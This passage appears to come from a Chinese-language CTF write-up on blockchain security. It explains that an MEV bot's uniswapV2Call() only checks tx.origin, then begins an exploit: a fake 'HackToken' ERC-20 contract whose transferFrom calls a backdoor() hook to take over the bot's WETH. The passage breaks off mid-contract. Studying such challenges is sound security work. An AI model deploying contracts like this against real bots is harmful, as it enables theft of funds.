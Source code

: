 - `uniswapV2Call()` 同样修改为了 `multicall()` 的形式，但仍然是对 `tx.origin` 进行验证

    ```js
    function uniswapV2Call(address, uint, uint, bytes calldata data) external {
        require(tx.origin == owner, "origin");
        (address[] memory addressList, bytes[] memory calldataList) = abi.decode(data, (address[], bytes[]));
        require(addressList.length == calldataList.length);
        for (uint i = 0; i < addressList.length; i++) {
            (bool success, ) = addressList[i].call(calldataList[i]);
            require(success);
        }
    }
    ```

- 与 [The Dark Forest](#the-dark-forest-1) 的思路类似，可以在套利交易中调用 `uniswapV2Call()` 来授予其它账户 `WETH` 的使用权，再在套利结束后取出 MEV bot 中的资金

#### Exploitation

```js
contract HackToken {
    string public constant name     = "Hack Token";
    string public constant symbol   = "HT";
    uint8  public constant decimals = 18;
    uint public totalSupply = 1 ether;

    IUniswapV2Callee bot;
    address weth;
    address owner;
    bool hacked;

    event  Approval(address indexed src, address indexed guy, uint wad);
    event  Transfer(address indexed src, address indexed dst, uint wad);

    mapping (address => uint)                       public  balanceOf;
    mapping (address => mapping (address => uint))  public  allowance;

    constructor(IUniswapV2Callee _bot, address _weth) {
        balanceOf[msg.sender] = totalSupply;
        weth = _weth;
        bot = _bot;
        owner = tx.origin;
    }

    function approve(address guy, uint wad) public returns (bool) {
        allowance[msg.sender][guy] = wad;
        emit Approval(msg.sender, guy, wad);
        return true;
    }

    function transfer(address dst, uint wad) public returns (bool) {
        return transferFrom(msg.sender, dst, wad);
    }

    function transferFrom(address src, address dst, uint wad)
        public
        returns (bool)
    {
        backdoor();
        require(balanceOf[src] >= wad);

        if (src != msg.sender && allowance[src][msg.sender] != type(uint).max) {
            require(allowance[src][msg.sender] >= wad);
            allowance[src][msg.sender] -= wad;
```